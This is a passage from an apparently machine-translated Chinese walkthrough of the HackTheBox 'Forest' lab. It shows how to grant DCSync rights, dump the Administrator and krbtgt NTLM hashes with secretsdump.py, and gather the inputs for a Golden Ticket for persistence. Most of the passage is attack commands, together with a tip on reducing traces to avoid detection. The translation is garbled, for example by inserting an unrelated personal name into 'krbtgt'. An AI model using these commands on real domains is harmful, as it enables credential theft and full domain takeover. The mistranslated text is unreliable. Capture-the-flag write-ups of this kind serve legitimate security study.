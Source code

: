 ```
Add-DomainObjectAcl -Credential $Cred \
-TargetIdentity "DC=htb,DC=local" \
-PrincipalIdentity svc-alfresco \
-Rights DCSync
```

在这些步骤成功完成后(有一个清理脚本会定期从“Exchange Windows 权限”组中删除所有用户…)，可以执行 DcSync 来使用 Impacket 的`secretsdump.py`获取域中用户的哈希。定点清除在交战后留下的清理痕迹更少，也更难被发现。

```
python3 secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -just-dc-user Administrator
```

通过 secretsdump.py 提取管理员 NTLM 哈希

一旦获得了管理员的哈希，所有配置都可以通过以下命令来恢复:

删除组成员身份:

```
net group “Exchange Windows Permissions” svc-alfresco /delete
```

删除 DcSync 权限:

```
Remove-DomainObjectAcl -Credential $Cred \
-TargetIdentity "DC=htb,DC=local" \
-PrincipalIdentity svc-alfresco \
-Rights DCSync
```

为了有趣地了解通过 Impacket 的`ntlmrelayx.py`自动提升`svc-alfresco`账户的权限，请查看 [sif0 的文章](https://medium.com/bugbountywriteup/hackthebox-forest-5a11553de1)。

# 坚持

一个[金票](https://ldapwiki.com/wiki/Golden%20Ticket)提供了一种为目标域的任何用户(甚至不存在的用户)任意生成 [Kerberos](https://ldapwiki.com/wiki/Kerberos) [TGT](https://ldapwiki.com/wiki/TGT) 票的方法。生成金券需要两件事:

1.  `krbtgt`李世民的 NTLM 杂凑
2.  域的安全标识符(SID)

请注意，这两个组件都与为创建的账户*无关。这意味着即使用户更改了密码，金券仍然有效。*

一旦通过从域控制器提取管理员的 NTLM 哈希获得了域管理员权限，`secretsdump.py`就可以再次用于提取`krbtgt`帐户的哈希:

```
python3 secretsdump.py htb.local/Administrator@10.10.10.161 \
-hashes :32693b11e6aa90eb43d32c72a07ceea6 \
-just-dc-user krbtgt
```

通过 secretsdump.py 提取 krbtgt 的 NTLM 散列

查询域 SID 最直接的方法是通过 PowerView 中的`Get-DomainSID` cmdlet 使用`evil-winrm`返回:

```
S-1-5-21-3072663084-364016917-1341370565
```
